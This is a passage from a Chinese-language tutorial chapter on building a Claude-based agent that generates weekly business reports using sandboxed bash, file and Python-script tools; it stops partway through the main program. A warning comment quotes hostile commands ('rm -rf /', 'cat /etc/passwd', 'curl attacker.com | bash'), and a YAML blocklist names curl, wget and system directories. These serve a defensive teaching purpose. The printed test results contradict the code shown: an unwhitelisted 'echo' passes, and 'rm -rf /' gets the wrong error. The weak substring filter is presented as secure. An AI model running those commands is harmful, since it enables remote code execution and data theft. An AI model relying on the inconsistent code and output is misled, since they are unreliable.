


# 第2章：賦予 Agent 執行能力 - 自動化報表生成系統

## 本章導覽

你是一家 SaaS 公司的技術主管。每週一早上，運營團隊都需要一份詳細的業務報表：
- 📊 上週的用戶註冊統計
- 💰 收入與訂閱趨勢
- 🐛 系統錯誤日誌分析
- 📈 API 使用量報告

目前的流程是這樣的：
1. 資料工程師從資料庫匯出 CSV 檔案（30 分鐘）
2. 分析師用 Excel 製作圖表（1 小時）
3. 產品經理撰寫摘要與建議（1 小時）
4. 最後用 Email 發送給所有利害關係人

**整個流程需要 2.5 小時，而且每週重複一次。**

在上一章，我們建立了一個能夠「對話」的客服 Agent。但它只能查詢資料、回答問題，無法真正**改變系統的狀態**。

**本章將帶你突破這個限制。**

你將建立一個 Agent，它能夠：
- ✅ 執行 Bash 命令（例如：查詢資料庫、執行 SQL）
- ✅ 讀取與寫入檔案（CSV、JSON、Markdown）
- ✅ 生成視覺化圖表（使用 Python 腳本）
- ✅ 將結果整理成專業的 PDF 報表
- ✅ **安全地執行**（不會誤刪系統檔案或執行危險命令）

**而且，整個流程將從 2.5 小時縮短到 5 分鐘。**

---

## 1.1 理解「執行能力」：從只能說到能夠做

### 1.1.1 第 1 章的限制

回顧一下我們在第 1 章建立的客服 Agent：

```python
# 第 1 章的工具：只能「讀取」資訊
tools = [
    {
        "name": "search_faq",
        "description": "搜尋 FAQ 知識庫",
        "input_schema": {...}
    },
    {
        "name": "query_order_status",
        "description": "查詢訂單狀態",
        "input_schema": {...}
    }
]
```

這些工具都是**唯讀**的——它們查詢資料、回傳結果，但**不會改變任何東西**。

**如果我們想讓 Agent 真正「做事」呢？**

例如：
- 產生一份 Excel 報表
- 執行資料庫備份
- 重啟某個微服務
- 自動化部署流程

這需要一種新的能力：**執行系統命令與檔案操作**。

### 1.1.2 三種等級的 Agent 能力

| 等級 | 能力 | 範例 | 風險 |
|------|------|------|------|
| **Level 1: 資訊查詢** | 只能讀取資料 | FAQ 搜尋、訂單查詢 | 低 |
| **Level 2: 檔案操作** | 可以建立/編輯檔案 | 生成報表、寫入日誌 | 中 |
| **Level 3: 系統控制** | 可以執行命令、管理服務 | 部署應用、重啟伺服器 | 高 |

**本章聚焦在 Level 2**，我們會觸及一些 Level 3 的概念（Bash 執行），但會嚴格限制權限。

第 8 章將深入探討 Level 3 的安全防護機制。

---

## 1.2 設計報表生成系統的架構

在動手寫程式碼之前，讓我們先設計系統架構。

### 1.2.1 需求分析

**輸入**：
```
"請產生本週的業務報表"
```

**期望輸出**：
```
✅ weekly_report_2025-11-08.pdf
內容包含：
- 執行摘要（Markdown → PDF）
- 用戶註冊趨勢圖（Python + matplotlib）
- 收入分析表（CSV → 表格）
- 錯誤日誌摘要（從日誌檔案解析）
```

### 1.2.2 系統架構圖



**核心元件**：

1. **報表協調器 (Report Coordinator)**
   - 主 Agent，負責規劃整個報表生成流程
   - 決定需要哪些資料、以什麼順序執行

2. **四大工具**：
   - `execute_bash`：執行資料庫查詢、生成統計
   - `read_file`：讀取日誌、CSV 檔案
   - `write_file`：寫入 Markdown、JSON 檔案
   - `run_python_script`：執行圖表生成腳本

3. **安全沙箱**：
   - 限制 Bash 命令白名單（只允許 `psql`, `grep`, `awk` 等）
   - 限制檔案操作範圍（只能在 `/workspace/reports/` 目錄內）
   - 禁止危險操作（`rm -rf`, `chmod 777`, `sudo` 等）

### 1.2.3 與第 1 章的對比

| 面向 | 第 1 章 | 第 2 章 |
|------|---------|---------|
| **Agent 類型** | 對話型 | 任務執行型 |
| **主要操作** | 查詢資料 | 生成產出物 |
| **工具數量** | 2-3 個 | 4-6 個 |
| **複雜度** | 簡單 | 中等 |
| **安全考量** | 低風險 | 需要權限管理 |
| **產出** | 文字回覆 | 檔案（PDF, CSV, 圖表）|

---

## 1.3 環境設定：準備沙箱環境

### 1.3.1 專案結構

```bash
report-agent/
├── main.py                  # 主程式
├── report_coordinator.py    # 報表協調器
├── tools/
│   ├── bash_executor.py     # Bash 執行工具
│   ├── file_operations.py   # 檔案讀寫工具
│   └── script_runner.py     # Python 腳本執行器
├── scripts/
│   ├── generate_chart.py    # 圖表生成腳本
│   └── analyze_logs.py      # 日誌分析腳本
├── sandbox/
│   ├── allowed_commands.yaml # 命令白名單
│   └── permissions.yaml      # 權限配置
├── workspace/
│   ├── data/                 # 原始資料
│   ├── reports/              # 生成的報表
│   └── logs/                 # 系統日誌
├── requirements.txt
└── .env
```

### 1.3.2 安裝依賴

```bash
# 建立虛擬環境
python -m venv venv
source venv/bin/activate  # Windows: venv\Scripts\activate

# 安裝套件
pip install anthropic python-dotenv pyyaml matplotlib pandas reportlab
```

**requirements.txt**:
```txt
anthropic==0.34.0
python-dotenv==1.0.0
pyyaml==6.0.1
matplotlib==3.8.0
pandas==2.1.0
reportlab==4.0.5
```

### 1.3.3 設定環境變數

**.env**:
```bash
ANTHROPIC_API_KEY=your_api_key_here

# 安全設定
SANDBOX_MODE=true
ALLOWED_WORKSPACE=/path/to/workspace
MAX_BASH_TIMEOUT=30
```

---

## 1.4 建構第一個工具：安全的 Bash 執行器

### 1.4.1 為什麼需要「安全」執行器？

想像一下，如果 Agent 可以執行**任意** Bash 命令，會發生什麼？

```python
# 危險的範例（千萬別這樣做！）
def execute_bash(command: str):
    return subprocess.run(command, shell=True, capture_output=True)

# Agent 可能會執行：
# "rm -rf /"  ← 刪除整個系統！
# "cat /etc/passwd"  ← 洩漏敏感資訊
# "curl attacker.com | bash"  ← 執行惡意腳本
```

**我們需要建立防護機制。**

### 1.4.2 實作安全的 Bash 執行器

**tools/bash_executor.py**:
```python
import subprocess
import yaml
from typing import Dict, List, Optional
from pathlib import Path

class SafeBashExecutor:
    """
    ‹1› 安全的 Bash 命令執行器

    核心安全機制：
    1. 命令白名單：只允許預先定義的命令
    2. 參數驗證：檢查參數中的危險模式
    3. 超時保護：防止長時間執行
    4. 路徑限制：只能訪問特定目錄
    """

    def __init__(self, config_path: str = "sandbox/allowed_commands.yaml"):
        self.config = self._load_config(config_path)
        self.allowed_commands = self.config.get("allowed_commands", [])
        self.blocked_patterns = self.config.get("blocked_patterns", [])
        self.allowed_workspace = Path(self.config.get("workspace", "./workspace"))
        self.timeout = self.config.get("timeout", 30)

    def _load_config(self, config_path: str) -> Dict:
        """載入安全配置"""
        with open(config_path, 'r') as f:
            return yaml.safe_load(f)

    def _validate_command(self, command: str) -> tuple[bool, Optional[str]]:
        """
        ‹2› 驗證命令是否安全

        檢查項目：
        1. 命令是否在白名單中
        2. 是否包含危險模式（如 rm -rf, sudo 等）
        3. 路徑是否在允許範圍內
        """
        # 提取命令名稱（第一個單字）
        cmd_name = command.split()[0]

        # 檢查白名單
        if cmd_name not in self.allowed_commands:
            return False, f"命令 '{cmd_name}' 不在白名單中"

        # 檢查危險模式
        for pattern in self.blocked_patterns:
            if pattern in command:
                return False, f"命令包含危險模式: '{pattern}'"

        # 檢查路徑限制
        if ".." in command or "~" in command:
            return False, "不允許使用相對路徑或家目錄符號"

        return True, None

    def execute(self, command: str, working_dir: Optional[str] = None) -> Dict:
        """
        ‹3› 執行命令並回傳結果

        參數：
            command: 要執行的 Bash 命令
            working_dir: 工作目錄（必須在 allowed_workspace 內）

        回傳：
            {
                "success": bool,
                "stdout": str,
                "stderr": str,
                "return_code": int
            }
        """
        # 驗證命令
        is_valid, error_msg = self._validate_command(command)
        if not is_valid:
            return {
                "success": False,
                "stdout": "",
                "stderr": f"安全檢查失敗: {error_msg}",
                "return_code": -1
            }

        # 設定工作目錄
        if working_dir:
            work_path = Path(working_dir)
            if not work_path.is_relative_to(self.allowed_workspace):
                return {
                    "success": False,
                    "stdout": "",
                    "stderr": "工作目錄超出允許範圍",
                    "return_code": -1
                }
        else:
            work_path = self.allowed_workspace

        # 執行命令
        try:
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=self.timeout,
                cwd=str(work_path)
            )

            return {
                "success": result.returncode == 0,
                "stdout": result.stdout,
                "stderr": result.stderr,
                "return_code": result.returncode
            }

        except subprocess.TimeoutExpired:
            return {
                "success": False,
                "stdout": "",
                "stderr": f"命令執行超時（>{self.timeout}秒）",
                "return_code": -1
            }
        except Exception as e:
            return {
                "success": False,
                "stdout": "",
                "stderr": f"執行錯誤: {str(e)}",
                "return_code": -1
            }

    def get_tool_definition(self) -> Dict:
        """
        ‹4› 回傳 Claude Tool Use 格式的工具定義
        """
        return {
            "name": "execute_bash",
            "description": f"""執行安全的 Bash 命令。

允許的命令：{', '.join(self.allowed_commands)}

使用範例：
- 查詢資料庫統計：psql -d mydb -c "SELECT COUNT(*) FROM users"
- 搜尋日誌錯誤：grep ERROR /workspace/logs/app.log
- 計算檔案行數：wc -l /workspace/data/users.csv

安全限制：
- 只能在 {self.allowed_workspace} 目錄內操作
- 命令執行超時時間：{self.timeout} 秒
- 禁止使用危險命令（rm -rf, sudo 等）
""",
            "input_schema": {
                "type": "object",
                "properties": {
                    "command": {
                        "type": "string",
                        "description": "要執行的 Bash 命令"
                    },
                    "working_dir": {
                        "type": "string",
                        "description": "工作目錄（選填，必須在允許範圍內）"
                    }
                },
                "required": ["command"]
            }
        }
```

### 1.4.3 安全配置檔案

**sandbox/allowed_commands.yaml**:
```yaml
# 允許執行的命令白名單
allowed_commands:
  - psql          # PostgreSQL 查詢
  - grep          # 文字搜尋
  - awk           # 文字處理
  - sed           # 流編輯器
  - wc            # 字數統計
  - cat           # 檔案內容查看
  - head          # 查看檔案開頭
  - tail          # 查看檔案結尾
  - sort          # 排序
  - uniq          # 去重
  - cut           # 欄位切割
  - python        # Python 腳本執行（限制在 scripts/ 目錄）

# 危險模式黑名單
blocked_patterns:
  - "rm -rf"
  - "sudo"
  - "chmod 777"
  - ">"           # 重導向（可能覆蓋檔案）
  - ">>"          # 附加重導向
  - "|"           # 管道（可能串接危險命令）
  - "curl"        # 網路請求
  - "wget"        # 網路下載
  - "/etc/"       # 系統配置目錄
  - "/var/"       # 系統變數目錄
  - "/usr/"       # 系統程式目錄

# 工作空間限制
workspace: "./workspace"

# 超時設定（秒）
timeout: 30
```

### 1.4.4 測試 Bash 執行器

**test_bash_executor.py**:
```python
from tools.bash_executor import SafeBashExecutor

def test_bash_executor():
    executor = SafeBashExecutor()

    # ✅ 測試 1：允許的命令
    print("測試 1：執行安全命令")
    result = executor.execute("echo 'Hello World'")
    print(f"  結果: {result}")
    assert result["success"] == True

    # ❌ 測試 2：危險命令
    print("\n測試 2：阻擋危險命令")
    result = executor.execute("rm -rf /")
    print(f"  結果: {result}")
    assert result["success"] == False
    assert "危險模式" in result["stderr"]

    # ❌ 測試 3：不在白名單的命令
    print("\n測試 3：阻擋未授權命令")
    result = executor.execute("reboot")
    print(f"  結果: {result}")
    assert result["success"] == False
    assert "不在白名單" in result["stderr"]

    # ✅ 測試 4：檔案統計
    print("\n測試 4：檔案操作")
    result = executor.execute("wc -l workspace/data/sample.csv")
    print(f"  結果: {result}")

    print("\n✅ 所有測試通過！")

if __name__ == "__main__":
    test_bash_executor()
```

**執行測試**:
```bash
python test_bash_executor.py
```

**輸出**:
```
測試 1：執行安全命令
  結果: {'success': True, 'stdout': 'Hello World\n', 'stderr': '', 'return_code': 0}

測試 2：阻擋危險命令
  結果: {'success': False, 'stdout': '', 'stderr': '安全檢查失敗: 命令包含危險模式: rm -rf', 'return_code': -1}

測試 3：阻擋未授權命令
  結果: {'success': False, 'stdout': '', 'stderr': '安全檢查失敗: 命令 reboot 不在白名單中', 'return_code': -1}

測試 4：檔案操作
  結果: {'success': True, 'stdout': '1250 workspace/data/sample.csv\n', 'stderr': '', 'return_code': 0}

✅ 所有測試通過！
```

---

## 1.5 建構檔案操作工具

Agent 需要能夠讀取和寫入檔案來產生報表。

### 1.5.1 檔案讀取工具

**tools/file_operations.py**:
```python
from pathlib import Path
from typing import Dict, Optional
import json
import csv

class FileOperations:
    """
    ‹1› 檔案操作工具集

    支援的操作：
    1. 讀取檔案（TXT, JSON, CSV）
    2. 寫入檔案（TXT, JSON, Markdown）
    3. 列出目錄內容

    安全機制：
    - 路徑限制：只能在 workspace/ 內操作
    - 檔案大小限制：防止讀取超大檔案
    """

    def __init__(self, workspace: str = "./workspace"):
        self.workspace = Path(workspace).resolve()
        self.max_file_size = 10 * 1024 * 1024  # 10 MB

    def _validate_path(self, file_path: str) -> tuple[bool, Optional[Path]]:
        """驗證路徑是否安全"""
        try:
            full_path = (self.workspace / file_path).resolve()

            # 檢查是否在 workspace 內
            if not full_path.is_relative_to(self.workspace):
                return False, None

            return True, full_path
        except Exception:
            return False, None

    def read_file(self, file_path: str, file_type: str = "text") -> Dict:
        """
        ‹2› 讀取檔案內容

        參數：
            file_path: 相對於 workspace 的檔案路徑
            file_type: 檔案類型（text, json, csv）
        """
        is_valid, full_path = self._validate_path(file_path)
        if not is_valid:
            return {
                "success": False,
                "content": None,
                "error": "路徑不安全或超出工作範圍"
            }

        if not full_path.exists():
            return {
                "success": False,
                "content": None,
                "error": f"檔案不存在: {file_path}"
            }

        # 檢查檔案大小
        if full_path.stat().st_size > self.max_file_size:
            return {
                "success": False,
                "content": None,
                "error": f"檔案過大（>{self.max_file_size / 1024 / 1024} MB）"
            }

        try:
            if file_type == "json":
                with open(full_path, 'r', encoding='utf-8') as f:
                    content = json.load(f)
            elif file_type == "csv":
                with open(full_path, 'r', encoding='utf-8') as f:
                    reader = csv.DictReader(f)
                    content = list(reader)
            else:  # text
                with open(full_path, 'r', encoding='utf-8') as f:
                    content = f.read()

            return {
                "success": True,
                "content": content,
                "error": None
            }
        except Exception as e:
            return {
                "success": False,
                "content": None,
                "error": f"讀取失敗: {str(e)}"
            }

    def write_file(self, file_path: str, content: str, file_type: str = "text") -> Dict:
        """
        ‹3› 寫入檔案

        參數：
            file_path: 相對於 workspace 的檔案路徑
            content: 要寫入的內容
            file_type: 檔案類型（text, json）
        """
        is_valid, full_path = self._validate_path(file_path)
        if not is_valid:
            return {
                "success": False,
                "error": "路徑不安全或超出工作範圍"
            }

        # 確保目錄存在
        full_path.parent.mkdir(parents=True, exist_ok=True)

        try:
            if file_type == "json":
                with open(full_path, 'w', encoding='utf-8') as f:
                    json.dump(json.loads(content), f, indent=2, ensure_ascii=False)
            else:  # text, markdown
                with open(full_path, 'w', encoding='utf-8') as f:
                    f.write(content)

            return {
                "success": True,
                "path": str(full_path.relative_to(self.workspace)),
                "error": None
            }
        except Exception as e:
            return {
                "success": False,
                "error": f"寫入失敗: {str(e)}"
            }

    def list_directory(self, dir_path: str = ".") -> Dict:
        """
        ‹4› 列出目錄內容
        """
        is_valid, full_path = self._validate_path(dir_path)
        if not is_valid:
            return {
                "success": False,
                "files": [],
                "error": "路徑不安全"
            }

        if not full_path.is_dir():
            return {
                "success": False,
                "files": [],
                "error": "不是目錄"
            }

        try:
            files = []
            for item in full_path.iterdir():
                files.append({
                    "name": item.name,
                    "type": "directory" if item.is_dir() else "file",
                    "size": item.stat().st_size if item.is_file() else None
                })

            return {
                "success": True,
                "files": files,
                "error": None
            }
        except Exception as e:
            return {
                "success": False,
                "files": [],
                "error": f"列表失敗: {str(e)}"
            }

    def get_tool_definitions(self) -> list[Dict]:
        """
        ‹5› 回傳所有檔案操作工具的定義
        """
        return [
            {
                "name": "read_file",
                "description": """讀取檔案內容。

支援的檔案類型：
- text: 純文字檔案（.txt, .md, .log）
- json: JSON 格式
- csv: CSV 表格

範例：
- read_file("logs/app.log", "text")
- read_file("data/users.json", "json")
- read_file("data/sales.csv", "csv")
""",
                "input_schema": {
                    "type": "object",
                    "properties": {
                        "file_path": {
                            "type": "string",
                            "description": "檔案路徑（相對於 workspace）"
                        },
                        "file_type": {
                            "type": "string",
                            "enum": ["text", "json", "csv"],
                            "description": "檔案類型"
                        }
                    },
                    "required": ["file_path"]
                }
            },
            {
                "name": "write_file",
                "description": """寫入檔案。

支援的格式：
- text: 純文字、Markdown
- json: JSON 格式（會自動格式化）

範例：
- write_file("reports/summary.md", "# 週報...", "text")
- write_file("data/config.json", '{"key": "value"}', "json")
""",
                "input_schema": {
                    "type": "object",
                    "properties": {
                        "file_path": {
                            "type": "string",
                            "description": "檔案路徑"
                        },
                        "content": {
                            "type": "string",
                            "description": "要寫入的內容"
                        },
                        "file_type": {
                            "type": "string",
                            "enum": ["text", "json"],
                            "description": "檔案類型"
                        }
                    },
                    "required": ["file_path", "content"]
                }
            },
            {
                "name": "list_directory",
                "description": """列出目錄內容。

回傳目錄中的所有檔案和子目錄。

範例：
- list_directory("data")
- list_directory("reports")
""",
                "input_schema": {
                    "type": "object",
                    "properties": {
                        "dir_path": {
                            "type": "string",
                            "description": "目錄路徑（預設為根目錄）"
                        }
                    },
                    "required": []
                }
            }
        ]
```

---

## 1.6 建構 Python 腳本執行器

報表通常需要圖表。我們讓 Agent 能夠執行 Python 腳本來生成視覺化。

### 1.6.1 Python 腳本執行器

**tools/script_runner.py**:
```python
import subprocess
from pathlib import Path
from typing import Dict, Optional

class PythonScriptRunner:
    """
    ‹1› Python 腳本執行器

    允許 Agent 執行預先撰寫的 Python 腳本（例如圖表生成）

    安全機制：
    - 只能執行 scripts/ 目錄內的腳本
    - 限制執行時間
    - 隔離環境（使用虛擬環境）
    """

    def __init__(self, scripts_dir: str = "./scripts", timeout: int = 60):
        self.scripts_dir = Path(scripts_dir).resolve()
        self.timeout = timeout

    def run_script(self, script_name: str, args: Optional[list] = None) -> Dict:
        """
        ‹2› 執行 Python 腳本

        參數：
            script_name: 腳本檔名（例如：generate_chart.py）
            args: 傳遞給腳本的參數列表
        """
        script_path = self.scripts_dir / script_name

        # 安全檢查
        if not script_path.exists():
            return {
                "success": False,
                "output": "",
                "error": f"腳本不存在: {script_name}"
            }

        if not script_path.is_relative_to(self.scripts_dir):
            return {
                "success": False,
                "output": "",
                "error": "腳本路徑不安全"
            }

        # 建構命令
        cmd = ["python", str(script_path)]
        if args:
            cmd.extend(args)

        # 執行
        try:
            result = subprocess.run(
                cmd,
                capture_output=True,
                text=True,
                timeout=self.timeout
            )

            return {
                "success": result.returncode == 0,
                "output": result.stdout,
                "error": result.stderr if result.returncode != 0 else None
            }
        except subprocess.TimeoutExpired:
            return {
                "success": False,
                "output": "",
                "error": f"腳本執行超時（>{self.timeout}秒）"
            }
        except Exception as e:
            return {
                "success": False,
                "output": "",
                "error": str(e)
            }

    def get_tool_definition(self) -> Dict:
        """‹3› 工具定義"""
        return {
            "name": "run_python_script",
            "description": """執行 Python 腳本（用於生成圖表、分析資料）。

可用的腳本：
- generate_chart.py: 生成統計圖表
  參數：[data_file, output_file, chart_type]

- analyze_logs.py: 分析日誌檔案
  參數：[log_file, output_file]

範例：
- run_python_script("generate_chart.py", ["data/sales.csv", "charts/sales.png", "bar"])
""",
            "input_schema": {
                "type": "object",
                "properties": {
                    "script_name": {
                        "type": "string",
                        "description": "腳本檔名"
                    },
                    "args": {
                        "type": "array",
                        "items": {"type": "string"},
                        "description": "傳遞給腳本的參數"
                    }
                },
                "required": ["script_name"]
            }
        }
```

### 1.6.2 範例腳本：圖表生成器

**scripts/generate_chart.py**:
```python
#!/usr/bin/env python
"""
圖表生成腳本

用法：
    python generate_chart.py <data_file> <output_file> <chart_type>

範例：
    python generate_chart.py ../workspace/data/sales.csv ../workspace/charts/sales.png bar
"""

import sys
import pandas as pd
import matplotlib.pyplot as plt
from pathlib import Path

def generate_chart(data_file: str, output_file: str, chart_type: str = "bar"):
    """
    生成圖表

    參數：
        data_file: CSV 資料檔案路徑
        output_file: 輸出圖片路徑
        chart_type: 圖表類型（bar, line, pie）
    """
    # 讀取資料
    df = pd.read_csv(data_file)

    # 建立圖表
    plt.figure(figsize=(10, 6))

    if chart_type == "bar":
        df.plot(kind='bar', x=df.columns[0], y=df.columns[1], ax=plt.gca())
    elif chart_type == "line":
        df.plot(kind='line', x=df.columns[0], y=df.columns[1], ax=plt.gca())
    elif chart_type == "pie":
        df.plot(kind='pie', y=df.columns[1], labels=df[df.columns[0]], ax=plt.gca())

    plt.title(f"{df.columns[1]} by {df.columns[0]}")
    plt.tight_layout()

    # 確保輸出目錄存在
    Path(output_file).parent.mkdir(parents=True, exist_ok=True)

    # 儲存圖表
    plt.savefig(output_file, dpi=300, bbox_inches='tight')
    print(f"✅ 圖表已生成: {output_file}")

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("錯誤：參數不足")
        print("用法：python generate_chart.py <data_file> <output_file> [chart_type]")
        sys.exit(1)

    data_file = sys.argv[1]
    output_file = sys.argv[2]
    chart_type = sys.argv[3] if len(sys.argv) > 3 else "bar"

    generate_chart(data_file, output_file, chart_type)
```

---

## 1.7 建構報表協調器 Agent

現在我們有了所有工具，該組裝主 Agent 了！

### 1.7.1 報表協調器完整實作

**report_coordinator.py**:
```python
from anthropic import Anthropic
from typing import Dict, List
import os
from dotenv import load_dotenv
import json

# 載入工具
from tools.bash_executor import SafeBashExecutor
from tools.file_operations import FileOperations
from tools.script_runner import PythonScriptRunner

load_dotenv()

class ReportCoordinator:
    """
    ‹1› 報表協調器 - 主 Agent

    職責：
    1. 理解報表需求
    2. 規劃執行步驟
    3. 呼叫工具完成任務
    4. 生成最終報表
    """

    def __init__(self):
        self.client = Anthropic(api_key=os.getenv("ANTHROPIC_API_KEY"))
        self.model = "claude-sonnet-4-20250514"

        # 初始化工具
        self.bash_executor = SafeBashExecutor()
        self.file_ops = FileOperations()
        self.script_runner = PythonScriptRunner()

        # 系統提示詞
        self.system_prompt = """你是一個專業的報表生成助理。

你的任務是：
1. 理解使用者的報表需求
2. 規劃資料收集與處理流程
3. 使用提供的工具完成任務：
   - execute_bash: 執行資料查詢（SQL、日誌搜尋等）
   - read_file: 讀取資料檔案
   - write_file: 寫入報表內容
   - run_python_script: 生成圖表
   - list_directory: 查看可用檔案

4. 生成專業的報表文件（Markdown 格式）

報表結構建議：
```markdown
# [報表標題]

## 執行摘要
[2-3 句話總結關鍵發現]

## 資料分析

### 1. [分析主題 1]
- 資料來源：...
- 關鍵發現：...
- 視覺化：

### 2. [分析主題 2]
...

## 建議與後續行動
1. ...
2. ...

---
報表生成時間：[timestamp]
```

注意事項：
- 所有檔案操作都在 workspace/ 目錄內
- 圖表儲存在 workspace/charts/
- 最終報表儲存在 workspace/reports/
- 使用清晰、專業的語言
"""

    def _get_all_tools(self) -> List[Dict]:
        """‹2› 收集所有工具定義"""
        tools = []
        tools.append(self.bash_executor.get_tool_definition())
        tools.extend(self.file_ops.get_tool_definitions())
        tools.append(self.script_runner.get_tool_definition())
        return tools

    def _execute_tool(self, tool_name: str, tool_input: Dict) -> Dict:
        """
        ‹3› 執行工具並回傳結果
        """
        if tool_name == "execute_bash":
            return self.bash_executor.execute(
                command=tool_input["command"],
                working_dir=tool_input.get("working_dir")
            )

        elif tool_name == "read_file":
            return self.file_ops.read_file(
                file_path=tool_input["file_path"],
                file_type=tool_input.get("file_type", "text")
            )

        elif tool_name == "write_file":
            return self.file_ops.write_file(
                file_path=tool_input["file_path"],
                content=tool_input["content"],
                file_type=tool_input.get("file_type", "text")
            )

        elif tool_name == "list_directory":
            return self.file_ops.list_directory(
                dir_path=tool_input.get("dir_path", ".")
            )

        elif tool_name == "run_python_script":
            return self.script_runner.run_script(
                script_name=tool_input["script_name"],
                args=tool_input.get("args")
            )

        else:
            return {"error": f"未知工具: {tool_name}"}

    def generate_report(self, request: str, max_iterations: int = 15) -> Dict:
        """
        ‹4› 生成報表（主要入口）

        參數：
            request: 報表需求描述
            max_iterations: 最大迭代次數（防止無限循環）

        回傳：
            {
                "success": bool,
                "report_path": str,
                "message": str,
                "steps": List[str]  # 執行步驟記錄
            }
        """
        messages = [{"role": "user", "content": request}]
        steps = []

        for iteration in range(max_iterations):
            # 呼叫 Claude
            response = self.client.messages.create(
                model=self.model,
                max_tokens=4096,
                system=self.system_prompt,
                tools=self._get_all_tools(),
                messages=messages
            )

            # 檢查是否完成
            if response.stop_reason == "end_turn":
                # Agent 已完成任務
                final_message = ""
                for block in response.content:
                    if hasattr(block, "text"):
                        final_message += block.text

                return {
                    "success": True,
                    "message": final_message,
                    "steps": steps
                }

            # 處理工具呼叫
            if response.stop_reason == "tool_use":
                # 將 Assistant 的回應加入對話
                messages.append({"role": "assistant", "content": response.content})

                # 執行所有工具呼叫
                tool_results = []
                for block in response.content:
                    if block.type == "tool_use":
                        tool_name = block.name
                        tool_input = block.input

                        # 記錄步驟
                        step_desc = f"[{iteration + 1}] 執行工具: {tool_name}"
                        if tool_name == "execute_bash":
                            step_desc += f" - {tool_input['command']}"
                        elif tool_name in ["read_file", "write_file"]:
                            step_desc += f" - {tool_input['file_path']}"
                        steps.append(step_desc)
                        print(f"  {step_desc}")

                        # 執行工具
                        result = self._execute_tool(tool_name, tool_input)

                        # 加入結果
                        tool_results.append({
                            "type": "tool_result",
                            "tool_use_id": block.id,
                            "content": json.dumps(result, ensure_ascii=False)
                        })

                # 將工具結果加入對話
                messages.append({"role": "user", "content": tool_results})

            else:
                # 意外的停止原因
                return {
                    "success": False,
                    "message": f"意外的停止原因: {response.stop_reason}",
                    "steps": steps
                }

        # 達到最大迭代次數
        return {
            "success": False,
            "message": f"達到最大迭代次數 ({max_iterations})",
            "steps": steps
        }
```

### 1.7.2 主程式

**main.py**:
```python
from report_coordinator import ReportCoordinator
from datetime import datetime

def main():
    print("=" * 60)
    print("📊 自動化報表生成系統")
    print("=" * 60)
    print()

    # 初始化協調器
    coordinator = ReportCoordinator()

    # 報表需求
    request = """請產生本週的業務報表（2025-11-01 到 2025-11-08）。

報表需包含：
1. 用戶註冊統計
   - 資料來源：workspace/data/users.csv
   - 需要生成趨勢圖表

2. 系統錯誤分析
   - 資料來源：workspace/logs/app.log
   - 統計 ERROR 和 WARNING 的數量
   - 列出前 5 個最常見的錯誤

3. API 使用量
   - 資料來源：workspace/logs/api.log
   - 統計各 endpoint 的呼叫次數

最終報表儲存為：workspace/reports/weekly_report_{date}.md
並生成 PDF 版本（如果可能）。
"""

    print("📝 報表需求：")
    print(request)
    print()
    print("🚀 開始生成報表...\n")

    # 生成報表
    result = coordinator.generate_report(request)

